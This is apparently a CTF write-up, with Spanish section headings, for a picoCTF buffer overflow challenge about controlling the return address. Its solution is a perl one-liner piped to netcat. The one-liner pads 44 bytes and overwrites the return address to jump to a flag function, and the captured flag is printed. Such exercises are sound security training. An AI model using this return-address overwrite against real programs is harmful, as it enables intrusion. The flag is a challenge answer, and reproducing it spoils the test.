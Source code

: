 ## Descripción 

Control the return address
Additional details will be available after launching your challenge instance.

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 65441`

## Hints



## Solución
```

kifuel@DESKTOP-3C07MOG:~$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";';echo) | nc saturn.picoctf.net 59812
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}
kifuel@DESKTOP-3C07MOG:~$
```


## Bandera
